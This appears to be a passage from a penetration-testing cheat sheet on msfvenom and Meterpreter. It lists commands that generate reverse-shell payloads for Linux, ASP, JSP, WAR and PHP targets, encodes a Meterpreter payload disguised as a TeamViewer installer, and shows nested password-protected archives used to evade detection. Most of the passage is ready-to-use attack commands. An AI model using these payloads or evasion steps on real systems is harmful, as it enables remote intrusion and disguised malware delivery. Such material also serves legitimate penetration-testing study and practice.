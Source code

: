 ```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
$ msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x86.elf

# asp	
$ msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp

# jsp
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp

# war
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war

# php
$ msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

## Encoder
### Generating Payload With Encoding
```bash
$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

### Multiple Iterations
```bash
$ msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o /root/Desktop/TeamViewerInstall.exe
```

## Evasion Techniques
```bash
$ wget https://www.rarlab.com/rar/rarlinux-x64-612.tar.gz
$ tar -xzvf rarlinux-x64-612.tar.gz && cd rar
$ rar a ~/test.rar -p ~/test.js

$ mv test.rar test
$ rar a test2.rar -p test
$ mv test2.rar test2
```

* * *

# Meterpreter
The Meterpreter Payload is a specific type of multi-faceted, extensible Payload that uses DLL injection to ensure the connection to the victim host is stable and difficult to detect using simple checks and can be configured to be persistent across reboots or system changes. Furthermore, Meterpreter resides entirely in the memory of the remote host and leaves no traces on the hard drive, making it difficult to detect with conventional forensic techniques.
